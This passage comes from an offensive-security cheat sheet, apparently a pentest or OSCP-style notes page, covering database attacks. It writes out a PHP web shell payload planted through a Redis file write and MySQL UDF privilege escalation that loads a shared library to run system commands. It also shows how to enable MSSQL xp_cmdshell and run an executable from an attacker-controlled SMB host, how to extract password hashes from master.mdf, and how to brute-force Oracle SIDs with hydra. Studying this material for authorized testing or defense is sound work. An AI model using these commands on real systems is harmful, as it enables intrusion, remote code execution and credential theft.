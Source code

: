 		- Set file name
	- `set x "\r\n\r\n<?php system($_GET[A]);?>\r\n\r\n"`
		- Write web shell
	- `save`
		- Save file
### MySQL
#### Exploit
- User-Defined Function (UDF) Dynamic Library
    - `SHOW VARIABLES LIKE 'plugin_dir';`
        - Check plugin dir
    - Write File Method (1)
        - `use mysql;`
        - `create table hack(line blob);`
        - `insert into hack values(load_file('/tmp/lib_sys_udf.so'));`
            - File From https://github.com/zinzloun/MySQL-UDF-PrivEsc (https://www.exploit-db.com/exploits/1518)
        - `select * from hack into dumpfile '/{plugin_dir}/lib_sys_udf.so';`
    - Write File Method (2)
        - `xxd -p -c 9999999 lib_sys_udf.so`
        - `SET @SHELL=0x{.....}`
        - `SHOW VARIABLES LIKE 'plugin_dir';`
        - `SELECT BINARY @SHELL INTO DUMPFILE '{PLUGIN_DIR}/meow.so';`
    - `create function do_system returns integer soname 'lib_sys_udf.so';`
    - `select do_system("{Bash script}");`
        - Not show return 
### MSSQL
- Connect
	- `impacket-mssqlclient -p {port} {UserID}@{IP} -windows-auth`
	- Default port : 1433
- Shell
	- `exec xp_cmdshell '{Command}'`
	    - `exec xp_cmdshell '\\192.168.119.210\meow\s443.exe'`
	        - `exec` doesn't need escape character
            - `xp_cmdshell(net users)`
                - Can also work but can't `\`
	- If no permission
        ```
        EXEC sp_configure 'show advanced options',1
        RECONFIGURE 
        EXEC sp_configure 'xp_cmdshell',1
        RECONFIGURE
        ```
#### Backup
- `C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS\MSSQL\Backup/master.mdf`
    - Or short path `C:/PROGRA~1/MICROS~1/MSSQL1~1.SQL/MSSQL/Backup/master.mdf`
- [Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)
    - `Add-Type -Path 'OrcaMDF.RawCore.dll'`
    - `Add-Type -Path 'OrcaMDF.Framework.dll'`
    - `import-module .\Get-MDFHashes.ps1`
    - `Get-MDFHashes -mdf "C:\Users\Administrator\Desktop\master.mdf" | Format-List`
    - Use john
### Oracle
- Default Port 1521
- Check version
    - `nmap --script "oracle-tns-version" -p 1521 -T4 -sV {IP}`
- Brute Force SID
    - `hydra -L sids-oracle.txt -s 1521 {IP} oracle-sid`
    - [oracle-sid.txt](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-LcreDSG0Hi8mv8n8DIw%2F-LcrnYv40ILvFrpjKRkb%2Fsids-oracle.txt?alt=media&token=8206a9f6-af86-4a49-ac71-179ca973d836)